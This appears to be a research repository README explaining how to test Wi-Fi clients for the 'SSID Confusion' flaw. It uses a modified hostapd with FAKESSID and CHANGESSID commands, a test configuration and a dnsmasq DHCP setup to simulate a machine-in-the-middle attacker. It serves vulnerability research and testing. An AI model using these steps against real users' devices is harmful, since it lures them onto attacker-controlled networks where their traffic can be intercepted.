 # SSID Confusion: Making Wi-Fi Clients Connect to the Wrong Network

## Standard Attack Test

You can test the standard attack using a single Wi-Fi dongle using our modified Hostapd.
This simulates the MC-MitM attack that would be present in a real attack.
Note that the **full MC-MitM experiment**, as used in the paper to verify an end-to-endattack,
is available in the [mc-mitm](mc-mitm-ssid/README.md) directory. The below modified Hostapd
is to more easily test whether clients are vulnerable.

To perform the standard attack test, first create the following example `hostapd_test.conf` configuration:

	interface=wlan0
	ctrl_interface=wpaspy_ctrl
	channel=1
	ssid=connectssid
	wpa_ptk_rekey=10

Now start hostapd:

	./hostapd hostapd_test.conf

**Before connecting** execute the following command:

	./hostapd_cli -p wpaspy_ctrl raw "FAKESSID changedssid"

This will simulate an MC-MITM attacker that modifies probe responses, beacons,
and association requests to advertise a different (fake) SSID. This will also
turn off beacon protection to simulate that the attacker changes the SSID in
the beacon but cannot recalculate the beacon MMIC.

After starting Hostapd, try to connect with a client to "changessid". If the
client can successfully connect to the "changedssid" then the SSID is not
verified during connection/authentication, meaning the client, and the used
authentication method, is vulnerable. The AP will perform a group key handshake
every 10 seconds. If this handshakes completes successfully, you know that the
client is (still) connected. A successful group key handshakes can be recognized
by the following debug output:

	wlan0: STA: XX:XX:XX:XX:XX:XX WPA: group key handshake completed (RSN)
	wlan0: STA: XX:XX:XX:XX:XX:XX WPA: group key handshake completed (RSN)
	wlan0: STA: XX:XX:XX:XX:XX:XX WPA: group key handshake completed (RSN)
	...

As long as this message is being shown, then the client with the given MAC address
is connected to the AP.

## Optimized Attack Test

You can use the following steps to test whether a client is affected by the
optimized attack, i.e., to test whether it checks the SSID in beacons _after_
being connected to a network.

Now connect to the created network. Once connected, you can make hostapd
advertise a different SSID using the following command:

	./hostapd_cli -p wpaspy_ctrl raw "CHANGESSID changedssid"

If the client stays connected then the client does not verify the SSID in
beacon frames one connected. Note that you can try to ping the client to
check whether it's still connected (see the client IP address in dnsmasq).

## Simple DHCP Server

To reliably test some clients, it may be required to enable DHCP. Otherwise,
some clients may automatically disconnect because the wireless network does
not provide an IP address. To easily give clients an IP address, you can
create the following `dnsmasq.conf` file:

	interface=wlan0
	dhcp-range=192.168.100.10,192.168.100.200,8h
	dhcp-option=3,192.168.100.1
	dhcp-option=6,192.168.100.1
	server=8.8.8.8
	log-queries
	log-dhcp

Now configure the IP address for `wlan0` and start dnsmasq:

	# Set IP of interface, otherwise dnsmasq will not hand out IP address.
	ip addr add 192.168.100.1/24 dev wlan0
	dnsmasq -d -C dnsmasq.conf

Note that handing out an IP address is sufficient in most cases. In case
a client requires full Internet access, you will also have to configure
Internet forwarding and NAT.
